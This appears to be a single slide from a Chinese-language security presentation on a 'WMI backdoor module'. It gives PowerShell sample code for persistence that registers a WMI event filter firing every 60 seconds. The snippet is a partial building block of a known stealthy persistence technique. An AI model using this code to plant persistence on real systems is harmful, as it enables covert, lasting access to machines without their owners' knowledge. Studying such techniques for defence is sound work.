

0x02 WMI后门模块
·  持久化
示例代码：
$filterName = 'BotFilter56'
#创建一个__EventFilter，用于设定触发条件，每隔60s执行一次
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE
TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'”

$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name = $filterName; EventNameSpace = "root\cimv2"; QueryLanguage = "WQL"; Query=$Query} -ErrorAction Stop